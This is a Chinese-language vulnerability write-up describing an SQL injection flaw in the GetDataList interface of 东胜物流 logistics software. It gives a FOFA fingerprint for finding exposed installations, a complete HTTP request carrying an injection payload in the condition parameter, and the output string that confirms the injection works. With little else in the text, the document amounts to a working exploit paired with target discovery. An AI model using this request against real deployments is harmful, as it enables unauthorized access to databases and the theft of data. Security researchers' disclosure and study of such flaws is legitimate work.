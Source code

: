# 东胜物流软件GetDataList存在SQL注入漏洞

# 一、漏洞简介
东胜物流软件是一款致力于为客户提供IT支撑的 SOP， 帮助客户大幅提高工作效率，降低各个环节潜在风险的物流软件。东胜物流软件 GetDataList接口处存在 SQL 注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 东胜物流软件

# 三、资产测绘
+ fofa`fid="Z4c2hPCi5IR/AnH5vZXNSQ=="`
+ 特征

![1708936256348-8d7bf6c6-a3aa-4202-9f9c-a325885eef04.png](./img/QafmrT00Cjqvxhgl/1708936256348-8d7bf6c6-a3aa-4202-9f9c-a325885eef04-278539.png)

# 四、漏洞复现
```plain
GET /TruckMng/MsWlDriver/GetDataList?_dc=1665626804091&start=0&limit=30&sort&condition=123+IN+(CHAR(113)%2bCHAR(120)%2bCHAR(112)%2bCHAR(113)%2bCHAR(113)%2bCHAR(113)%2bCHAR(122)%2bCHAR(107)%2bCHAR(113)%2bCHAR(113))--%20&page=1&page=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Accept-Encoding: gzip
```

![1708944988680-1741de01-6614-4b5a-8913-8f29d37c10da.png](./img/QafmrT00Cjqvxhgl/1708944988680-1741de01-6614-4b5a-8913-8f29d37c10da-630979.png)

```plain
qxpqqqzkqq
```



> 更新: 2024-02-29 23:55:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mp5bydo55w118fyr>